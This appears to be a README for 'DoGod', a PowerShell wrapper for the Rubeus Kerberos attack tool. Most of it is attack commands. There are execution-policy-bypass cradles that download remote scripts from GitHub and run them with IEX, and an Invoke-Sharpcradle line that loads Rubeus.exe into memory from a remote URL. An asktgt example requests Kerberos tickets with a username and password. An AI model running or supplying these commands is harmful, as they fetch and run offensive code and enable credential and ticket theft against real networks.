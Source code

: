 # DoGod
*Rubeus wrapped in PowerShell*

import-module ./DoGod.ps1 ---> Loads Rubeus

DogGod ---> Rubeus native help menu

Use Onscreen Instructions for DoGod syntax!

Way 1:
IEX:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/DoGod/main/DoGod.ps1'))

Way 2:

Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/IAMinZoho/OFFSEC-PowerShell/main/Invoke-Sharpcradle.ps1'))

Rubeus Commands:
Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe

or,

Invoke-Sharpcradle -Uri https://raw.githubusercontent.com/IAMinZoho/DoGod/main/Rubeus.exe -Argument1 asktgt /user:Bob /password:user@123


Rubeus.exe: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

